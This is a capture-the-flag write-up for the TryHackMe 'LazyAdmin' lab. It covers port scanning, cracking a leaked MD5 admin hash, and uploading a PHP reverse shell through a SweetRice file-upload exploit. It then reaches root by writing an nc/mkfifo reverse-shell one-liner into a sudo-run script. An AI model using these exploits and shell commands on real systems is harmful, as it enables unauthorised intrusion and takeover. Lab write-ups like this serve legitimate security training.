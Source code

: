 # TryHackMe

------------------------------------

### IP: 10.10.97.171
### Name: LazyAdmin
### Difficulty: Easy

--------------------------------------------

![lazyadmin.jpeg](../assets/lazyadmin_assets/lazyadmin.jpeg)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the --min-rate 10000 flag to speed things up. I'll also use the -sC and -sV to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.183.91
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-13 10:23 CDT
Nmap scan report for 10.10.183.91
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.74 seconds
```

Navigating to port 80 we find an apache landing page.

Kicking off some directory fuzzing we find a `/content` endpoint:

![lazyadmin_dirs.png](../assets/lazyadmin_assets/lazyadmin_dirs.png)

Checking it out we see it is running Sweet Rice:

![lazyadmin_sr.png](../assets/lazyadmin_assets/lazyadmin_sr.png)

Navigating to http://10.10.183.91/content/as/ we find the sign-in page:

![lazyadmin_signin.png](../assets/lazyadmin_assets/lazyadmin_signin.png)

Looking back at our directory scanning, we find a `/inc` page, and in that directory we find a mysql backup file:

![lazyadmin_backup.png](../assets/lazyadmin_assets/lazyadmin_backup.png)

Taking a look at the file we find the manager's password hash:

![lazyadmin_hash.png](../assets/lazyadmin_assets/lazyadmin_hash.png)

This appears to be MD5, so lets crack it using Hashcat:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt -m 0  
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

42f749ade7f9e195bf475f37a44cafcb:Password123              
                                                          
Session..........: hashcat
Status...........: Cracked
```

Nice, we can now login with `manager:Password123`. 

![lazyadmin_in.png](../assets/lazyadmin_assets/lazyadmin_in.png)

Looking for exploits for version 1.5.1 I find this arbitrary upload vulnerability: https://www.exploit-db.com/exploits/40716

Essentially the exploit is just logging in and uploading a PHP file, and then giving us the URL we can find the attachment at:

```python
<SNIP>
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass 
```

Lets give it a shot.

### Exploitation

First I'll grab a copy of PentestMonkey's php_reverse_shell.php and rename it to shell.php5:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ mv php-reverse-shell.php shell.php5                   
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ subl shell.php5   
```

Note: There is likely some file blacklisting going on, so it's important to update the extension to .php5, rather than just .php

I'll then open it up and change the address I'll be listening on:

![lazyadmin_script_update.png](../assets/lazyadmin_assets/lazyadmin_script_update.png)

Next I'll use the exploit to upload the file:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ python sweetrice_upload.py
```

![lazyadmin_exploit1](../assets/lazyadmin_assets/lazyadmin_exploit1.png)

lazyadmin_exploit1.png

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.0.125] from (UNKNOWN) [10.10.183.91] 43616
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 19:11:19 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
THM-Chal
```

I can then grab the user.txt flag:

![lazyadmin_user_flag.png](../assets/lazyadmin_assets/lazyadmin_user_flag.png)

### Privilege Escalation

Running `sudo -l` to see what we can do with elevated permissions, we find we can execute a perl script as root:

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Digging a bit deeper, we see we can't modify backup.pl directly, but the script calls another script, copy.sh,  which we do have write access over. And oddly enough that script is a reverse shell one liner (for some reason?). So we should just be able to update copy.sh to our IP address, execute backup.pl with sudo, and catch a reverse shell as root.

![lazyadmin_why.png](../assets/lazyadmin_assets/lazyadmin_why.png)

Update /etc/copy.sh
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.0.125 5554 >/tmp/f" > /etc/copy.sh
```

Set up a listener and execute backup.pl with sudo:
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```

And we catch a shell as root where we can grab the final flag:

![lazyadmin_root_flag.png](../assets/lazyadmin_assets/lazyadmin_root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------
